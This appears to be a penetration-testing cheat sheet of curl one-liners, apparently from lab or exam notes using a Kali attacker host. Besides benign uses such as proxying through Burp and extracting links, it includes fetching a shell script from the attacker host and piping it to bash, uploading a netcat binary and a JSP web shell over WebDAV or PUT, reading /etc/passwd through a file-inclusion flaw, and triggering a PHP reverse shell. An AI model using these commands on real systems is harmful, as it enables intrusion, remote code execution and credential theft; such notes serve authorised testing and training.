 #### Download and execute
```bash - target
curl http://$KALI/shelly.sh | bash
```
#### Save to file
```bash - target
curl http://$KALI/shelly.sh -o shelly.sh
```
#### Proxy to Burp
```
curl --proxy localhost:8080 -k https://$TARGET
```
#### Headers
```bash - kali
curl -I http://192.168.120.204/filemanager/
```
#### GET request with data
```
curl -X GET -k https://$TARGET -d 'testdata'
```
#### Upload file
```bash
curl --user 'user:password' -T nc64.exe http://$TARGET/webdav/nc64.exe
```
```bash
curl -X PUT http://$TARGET:PORT/shelly.jsp -d 2- < shelly.jsp
```
#### LFI example with custom header
```bash -kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```
#### html2text
```bash - kali
curl http://$TARGET:8080/ | html2text
```
#### Credentials
```bash - kali
curl --user $USER:$PASSWORD $TARGET
```
#### Webdav trigger webshell
```bash - kali
curl http://$TARGET/webdav/php-reverse-shell.php -u $USER:$PASSWORD
```
#### Edit Method
```bash - kali
curl -siX POST -H 'Content-Length: 0' http://$TARGET:33333/list-running-procs
```
#### Link Extractor
```bash - kali
curl http://$TARGET | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```
